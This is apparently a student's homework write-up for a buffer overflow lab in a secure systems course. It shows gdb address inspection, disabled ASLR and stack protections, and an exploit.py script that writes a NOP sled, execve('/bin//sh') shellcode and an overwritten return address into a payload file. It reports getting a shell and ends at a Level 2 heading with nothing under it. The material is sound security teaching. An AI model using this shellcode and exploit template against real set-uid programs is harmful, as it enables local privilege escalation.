



# HMWK3 Buffer Overflow Attack Lab (Set-UID Version)

CS487 Secure Computer Systems

Robert D. Hernandez <rherna70@uic.edu>

## Env Setup 

See the included taskfile for linking sh to zsh and disabling ASLR convenience scripts `task disable_alr`, `link_to_zsh`

## Task 1: 

I tried compiling shellcode/32_bit_shellcode.s and shellcode/64_bit_shellcode.s with gcc but was met with:

```➜  shellcode git:(hw3/buffer_overflow_attack_lab) ✗ gcc -m32 -DBUF_SIZE=100 fno-stack-protector -z noexecstack -o 32 32_bit_shellcode.s 
32_bit_shellcode.s: Assembler messages:
32_bit_shellcode.s: Warning: end of file not at end of a line; newline inserted
32_bit_shellcode.s:1: Error: no such instruction: `store the command on stack'
32_bit_shellcode.s:2: Error: too many memory references for `xor'
32_bit_shellcode.s:6: Error: too many memory references for `mov'
32_bit_shellcode.s:6: Error: no such instruction: `ebx -->"/bin//sh":execve()’s 1st argument'
32_bit_shellcode.s:7: Error: no such instruction: `construct the argument array argv[]'
32_bit_shellcode.s:8: Error: invalid character '[' in mnemonic
32_bit_shellcode.s:9: Error: invalid character '[' in mnemonic
32_bit_shellcode.s:10: Error: too many memory references for `mov'
32_bit_shellcode.s:10: Error: no such instruction: `ecx -->argv[]:execve()’s 2nd argument'
32_bit_shellcode.s:11: Error: no such instruction: `for environment variable'
32_bit_shellcode.s:12: Error: too many memory references for `xor'
32_bit_shellcode.s:12: Error: junk at end of line, first unrecognized character is `:'
32_bit_shellcode.s:13: Error: no such instruction: `invoke execve()'
32_bit_shellcode.s:14: Error: too many memory references for `xor'
32_bit_shellcode.s:15: Error: too many memory references for `mov'
32_bit_shellcode.s:15: Error: invalid character '(' in mnemonic
32_bit_shellcode.s:16: Error: operand size mismatch for `int'
```

## Task 2: 

I created a simple taskfile entry to build and clean `stack.c` `call.shellcode.c` `shellcode.c`


## Task 3: Launching Attack on 32-bit Program (Level 1)

We begin by running the compiled `stack.c` with `gdb` and we set a breakpoint at the `bof()` function, we see pwndbg below:


I didn't have `$ebp` on my machine I had `$rbp` so printing that value we see the value of `$rbp` is `0x7fffffffdce0`


and the address of `&buffer` is `0x7ffff7fb0e30`


I later turned on debugging symbols


I then decided to try the following `exploit.py` and found that the address of the buffer was too high and causing an integer overflow error in python when trying to write it as a bytestring

```
#!/usr/bin/python3

import sys

shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 20 # Need to change
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x7fffffffdc70
# offset = 0 # Need to change
offset = 20 + len(shellcode)

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

produces

```
verflowError: int too big to convert
➜  hw3 git:(hw3/buffer_overflow_attack_lab) ✗ python3 exploit.py
Traceback (most recent call last):
  File "/home/rherna70/code/CS487/hw3/exploit.py", line 24, in <module>
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
OverflowError: int too big to convert
```


I found that I was compiling `stack.c` in 64 bit mode and using a 64 bit address for the buffer start in `exploit.py` so after enabling the `-m32` flag I found the following values for `$ebp` and `&buffer`




`$ebp=0xffffcc98`

`&buffer=0xffffcc2c`

After enabling stack execution with a compiler flag I was able to get a shell:



## Task $: Launching Attack Without knowing Buffer Size (Level 2)